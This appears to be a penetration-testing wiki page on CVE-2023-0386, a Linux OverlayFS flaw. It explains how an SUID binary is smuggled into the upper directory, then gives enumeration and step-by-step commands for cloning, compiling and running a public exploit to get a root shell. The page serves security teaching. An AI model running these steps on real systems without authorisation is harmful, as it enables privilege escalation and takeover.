 ```yaml
---
description: CVE-2023-0386
---
```


# CVE-2023-0386 (OverlayFS)

## Theory

The overlay file system (often abbreviated as OverlayFS) allows a user to "merge" several mount points into a unified file system.

CVE-2023-0386 lies in the fact that when the kernel copied a file from the overlay file system to the "upper" directory, it did not check if the user/group owning this file was mapped in the current [user namespace](https://securitylabs.datadoghq.com/articles/container-security-fundamentals-part-2/#user-namespace). This allows an unprivileged user to smuggle an SUID binary from a "lower" directory to the "upper" directory, by using OverlayFS as an intermediary.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
The target system is likely to be vulnerable if it has a kernel version lower than 6.2.

```bash
$ uname -r
5.15.70-051570-generic
```
{% endtab %}

{% tab title="Exploit" %}
Using [this exploit](https://github.com/sxlmnwb/CVE-2023-0386) from sxlmnwb, we can abuse CVE-2023-0386

```bash
#Compile
git clone https://github.com/sxlmnwb/CVE-2023-0386 && cd CVE-2023-0386
make all
```

Start two terminals on the target, in the first one type

```
./fuse ./ovlcap/lower ./gc
```

In the second terminal type. It will spawn a root shell.

```
./exp
```

{% hint style="info" %}
If the target doesn't have gcc installed, you may need to recreate a similar virtual environement to compile the exploit.
{% endhint %}
{% endtab %}
{% endtabs %}

## References

{% embed url="https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/" %}
